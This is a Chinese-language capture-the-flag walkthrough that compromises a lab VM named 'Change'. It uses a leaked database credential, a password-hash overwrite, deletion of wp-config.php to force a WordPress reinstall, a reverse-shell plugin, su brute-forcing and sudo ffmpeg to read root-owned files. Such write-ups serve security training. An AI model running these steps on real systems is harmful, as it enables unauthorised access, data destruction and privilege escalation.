 

![image](https://7r1UMPHK.github.io/image/20250721221556384.webp)

# 一、信息收集

# 1. 主机发现

首先，在内网环境中使用 `arp-scan` 工具扫描本地网络，以发现存活的主机。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:57:e5:45, IPv4: 192.168.205.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.205.1   00:50:56:c0:00:08       VMware, Inc.
192.168.205.2   00:50:56:fc:94:2f       VMware, Inc.
192.168.205.202 08:00:27:7d:c4:83       PCS Systemtechnik GmbH
192.168.205.254 00:50:56:fc:a8:ce       VMware, Inc.
...
```

扫描结果显示目标主机的 IP 地址为 `192.168.205.202`。

## 2. 端口与服务扫描

确定目标 IP 后，使用 `nmap` 对其进行详细的端口扫描，探测其开放的端口和服务。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p- 192.168.205.202
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-21 10:13 EDT
Nmap scan report for 192.168.205.202
Host is up (0.00010s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
MAC Address: 08:00:27:7D:C4:83 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.28 seconds```

扫描发现目标开放了三个服务端口：SSH (22), HTTP (80) 和 MySQL (3306)。
```

# 二、初始访问

## 1. Web 应用枚举

访问 80 端口的 Web 服务，页面提示我们访问域名 `change.dsz`。我们将该域名与目标 IP 的映射关系添加到本地 `/etc/hosts` 文件中。

使用 `wfuzz` 对子域名进行模糊测试，发现了一个新的子域名 `wordpress.change.dsz`。


接着使用 `gobuster` 对 `http://change.dsz` 进行目录扫描，发现 `login.php`, `admin.php`, `db.php` 等文件。

## 2. 信息泄露与数据库访问

在 `login.php` 页面的 HTML 源码中，发现了一段注释，泄露了数据库的连接凭据。

```html
<!-- Database connection settings:
Host=localhost, DB=changeweb
User=change, Password=change -->
```

我们使用这组凭据 (`change:change`) 成功连接到目标的 MySQL 服务。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ mysql -h 192.168.205.202 -u change -pchange --skip-ssl
Welcome to the MariaDB monitor. ...
...
MariaDB [changeweb]> select * from users;
+----+----------+--------------------------------------------------------------+
| id | username | password                                                     |
+----+----------+--------------------------------------------------------------+
|  1 | root     | $2y$10$EFCK8LdjkDv1W52q0bV8.OLUicO8h6kYBqU5nE1jOcSq3qQ9l5mZG |
+----+----------+--------------------------------------------------------------+
```

在 `changeweb` 数据库的 `users` 表中，我们发现了 `root` 用户的密码哈希。

## 3. 获取立足点

通过 `SHOW GRANTS` 命令查询可知，`change` 用户拥有对 `changeweb` 数据库的全部权限，这意味着我们可以修改表中的数据。我们本地生成一个新的密码哈希（密码为 `1`），并更新 `users` 表中的 `root` 用户密码。

```bash
# 在攻击机上生成密码哈希
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ php -r 'echo password_hash("1", PASSWORD_DEFAULT);'
$2y$12$l22u4aCvdoTp.g5g4RTBheEeHiBFzCFUK3pi1cJkGQY39OjKE/HTG

# 在数据库中更新密码
MariaDB [changeweb]> UPDATE users SET password = '$2y$12$l22u4aCvdoTp.g5g4RTBheEeHiBFzCFUK3pi1cJkGQY39OjKE/HTG' WHERE username = 'root';
```

使用 `root:1` 成功登录后台 `admin.php`，发现这是一个命令执行页面，但功能受限，只允许执行 `ls`, `rm`, `pwd` 等少数命令。

我们的目标是 `wordpress.change.dsz`。利用已知漏洞，如果 WordPress 的 `wp-config.php` 文件被删除，再次访问网站会触发重新安装流程。利用 `admin.php` 的 `rm` 命令执行权限，我们删除了该配置文件。

```bash
# 在 admin.php 页面执行
rm ../wordpress.change.dsz/wp-config.php
```

刷新 `http://wordpress.change.dsz/`，果然进入了 WordPress 的安装界面。我们利用已掌握的 `changeweb` 数据库凭据完成了安装，并设置了一个新的管理员账户。

登录 WordPress 后台后，我们上传并激活了一个包含反向 Shell 的恶意插件，成功在本地 `nc` 监听器上接收到了一个 `www-data` 用户的 Shell。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.202] 47432
...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# 三、权限提升

## 1. 提权至 `lzh` 用户

在 `www-data` 的 Shell 中，我们在 `/home/lzh/` 目录下发现了一个名为 `.pass.txt` 的密码字典文件和一个 `user.txt`。

我们将密码爆破工具 `suForce` 上传到目标服务器的 `/tmp` 目录，并使用 `.pass.txt` 作为字典，对本地用户 `lzh` 进行密码爆破。

```bash
www-data@Change:/tmp$ ./suForce -u lzh -w /home/lzh/.pass.txt
...
💥 Password | 1a2b3c4d1a2b3c4d
...
```

成功破解出 `lzh` 用户的密码为 `1a2b3c4d1a2b3c4d`。我们使用该凭据通过 SSH 登录，获得了 `lzh` 用户的 Shell，并读取了第一个 flag。

```bash
lzh@Change:~$ cat user.txt
flag{user-a05597ed1f36976e88c2e10a74902c52}
```

## 2. 提权至 `root`

成为 `lzh` 用户后，我们检查其 `sudo` 权限。

```bash
lzh@Change:~$ sudo -l
...
User lzh may run the following commands on Change:
    (ALL) NOPASSWD: /usr/bin/ffmpeg
```

结果显示，`lzh` 用户可以无需密码以 `root` 权限执行 `/usr/bin/ffmpeg` 命令。`ffmpeg` 是一个功能强大的多媒体处理工具，其 `drawtext` 滤镜可以读取指定文件的内容并将其渲染到视频或图片上。我们可以利用此特性读取任意文件。

我们构造 `ffmpeg` 命令，将 `/root/root.txt` 的内容作为文本，绘制到一个新的图片文件 `/tmp/flag.png` 中。

```bash
lzh@Change:/tmp$ sudo /usr/bin/ffmpeg -f lavfi -i "nullsrc" -vf "drawtext=fontfile=/usr/share/fonts/truetype/dejavu/DejaVuSans.ttf:textfile=/root/root.txt:fontsize=24:fontcolor=white" -frames:v 1 /tmp/flag.png
```

命令成功执行后，在 `/tmp` 目录下生成了 `flag.png`。我们在该目录下开启一个临时的 Python HTTP 服务器。

```bash
lzh@Change:/tmp$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

最后，在我们的攻击机上通过浏览器访问 `http://192.168.205.202:8000/flag.png`，图片上清晰地显示了 `root` flag 的内容。

![image](https://7r1UMPHK.github.io/image/20250721225001229.webp)

# 四、获取所有 Flag

至此，我们成功获取了系统上的所有 flag。